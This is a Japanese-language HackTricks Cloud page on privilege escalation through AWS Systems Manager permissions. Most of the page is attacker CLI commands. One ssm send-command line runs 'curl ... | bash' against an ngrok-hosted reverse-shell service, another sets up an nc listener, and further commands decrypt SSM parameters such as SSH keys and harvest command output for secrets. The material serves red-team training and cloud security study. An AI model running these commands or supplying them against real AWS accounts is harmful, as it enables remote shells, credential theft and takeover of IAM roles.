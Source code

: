 # AWS - SSM Privesc

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

## SSM

SSMに関する詳細情報は以下を確認してください：

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`**の権限を持つ攻撃者は、Amazon SSMエージェントを実行しているインスタンスで**コマンドを実行**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
```markdown
既に侵害されたEC2インスタンス内で特権を昇格させるためにこの技術を使用している場合、次のコマンドでローカルにrevシェルをキャプチャできます：
```
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

### `ssm:StartSession`

**`ssm:StartSession`** の権限を持つ攻撃者は、Amazon SSMエージェントが実行されているインスタンスで**SSHのようなセッションを開始**し、その中で実行されている**IAMロールを侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
セッションを開始するには、**SessionManagerPlugin**をインストールする必要があります: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**潜在的な影響:** SSMエージェントが実行されているインスタンスにアタッチされたEC2 IAMロールへの直接的な権限昇格。

#### ECSへの権限昇格

**ECSタスク**が**`ExecuteCommand`を有効にして実行される**と、十分な権限を持つユーザーは`ecs execute-command`を使用して**コンテナ内でコマンドを実行**できます。\
[**ドキュメント**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/)によると、これは“_exec_”コマンドを開始するために使用するデバイスと、SSMセッションマネージャーを使用したターゲットコンテナとの間に安全なチャネルを作成することによって行われます。（これが機能するためにはSSMセッションマネージャープラグインが必要です）\
したがって、`ssm:StartSession`を持つユーザーは、そのオプションが有効になっているECSタスク内で**シェルを取得**できるようになります。
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**潜在的な影響:** `ExecuteCommand`が有効な実行中のタスクに添付された`ECS`IAMロールへの直接的な権限昇格。

### `ssm:ResumeSession`

**`ssm:ResumeSession`**の権限を持つ攻撃者は、**切断された**SSMセッション状態のAmazon SSMエージェントが実行されているインスタンスでSSHのようなセッションを再**開始**し、その中で実行されているIAMロールを**侵害**することができます。
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**潜在的な影響:** SSMエージェントが実行されているインスタンスに接続されたEC2 IAMロールへの直接的な権限昇格と切断されたセッション。

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

言及された権限を持つ攻撃者は、**SSMパラメータ**をリストし、**平文で読む**ことができるようになります。これらのパラメータには、SSHキーやAPIキーなどの**機密情報**が頻繁に**見つかる**ことがあります。
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**潜在的な影響:** パラメータ内の機密情報を見つける。

### `ssm:ListCommands`

この権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、そこに**機密情報**が含まれていることを期待できます。
```
aws ssm list-commands
```
**潜在的影響:** コマンドライン内の機密情報を見つける。

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

これらの権限を持つ攻撃者は、送信されたすべての**コマンド**をリストし、生成された**出力を読み取る**ことができ、そこに**機密情報**が見つかることを期待します。
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**潜在的影響:** コマンドラインの出力内に機密情報を見つける。

### Codebuild

SSMを使用して、ビルド中のcodebuildプロジェクトにアクセスすることもできます：

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
